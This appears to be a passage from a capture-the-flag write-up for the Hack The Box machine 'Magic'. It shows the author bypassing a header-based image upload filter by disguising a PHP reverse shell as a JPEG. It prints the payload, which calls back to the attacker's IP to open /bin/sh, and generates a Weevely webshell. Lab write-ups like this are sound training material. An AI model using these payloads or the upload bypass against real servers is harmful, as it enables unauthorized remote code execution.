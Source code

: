 
### 3. Get a shell
My plan is as follows:
1. Post an image to the upload.php address so the file appears on the server
2. Access the file via the homepage to open a shell to my machine.
  
Firstly I will clone the page and change the form action so it posts to the site.
```bash
kali@kali:~/Desktop/htb/magic$ cloner -u http://10.10.10.185/upload.php -f http://10.10.10.185
============================================================
                           cloner
============================================================
Cloning page: http://10.10.10.185/upload.php
Getting content: http://10.10.10.185/assets/js/jquery.min.js - Success
Getting content: http://10.10.10.185/assets/js/jquery.poptrox.min.js - Success
Getting content: http://10.10.10.185/assets/js/browser.min.js - Success
Getting content: http://10.10.10.185/assets/js/breakpoints.min.js - Success
Getting content: http://10.10.10.185/assets/js/util.js - Success
Getting content: http://10.10.10.185/assets/js/main.js - Success
Building page...
Performing form action substitution with: http://10.10.10.185/upload.php
Site cloned to ./cloned-2020-08-13-01-17-06
```
Once I have a copy of the page, I clean it up a bit (cloner is still a bit buggy with how it replaces relative stuff). I upload a test file to the site and capture the response in Burp.
```html
HTTP/1.1 302 Found
Date: Thu, 13 Aug 2020 06:53:55 GMT
Server: Apache/2.4.29 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: login.php
Content-Length: 3015
Connection: close
Content-Type: text/html; charset=UTF-8

<script>alert('Sorry, only JPG, JPEG & PNG files are allowed.')</script>
```
If I find an actual jpg file (the first test file I used wasn't one of these formats) and try it, it uploads successfully.
```
The file pepe.jpeg has been uploaded.
```
After a few more checks it becomes apparent that the upload is allowed based on the file's header. I know this can be bypassed, as headers can be appended to any file. I create a php reverse shell with a JPEG header.
```bash
kali@kali:~/Desktop/htb/magic$ file pepeshell.php.jpeg 
pepeshell.php: JPEG image data, JFIF standard 1.10, density 16240x26736, segment length 16, thumbnail 32x101
kali@kali:~/Desktop/htb/magic$ cat pepeshell.php.jpeg
����JFIF
<?php eval('$sock=fsockopen("10.10.15.116",9999);exec("/bin/sh -i <&3 >&3 2>&3");'); ?>
```
I then upload this, and it successfully passes through the filters to be uploaded.
```
The file pepeshell.php.jpeg has been uploaded.
```
Now I can browse to the file on the server to execute the shell. Unfortunately this doesn't end up working - the connection gets recieved but immediately drops. I try a webshell generated in Weevely next.
```bash
kali@kali:~$ weevely generate jack pepeshell.php
Generated 'pepemegashell.php' with password 'jack' of 680 byte size.
kali@kali:~$ bless pepeshell.php
```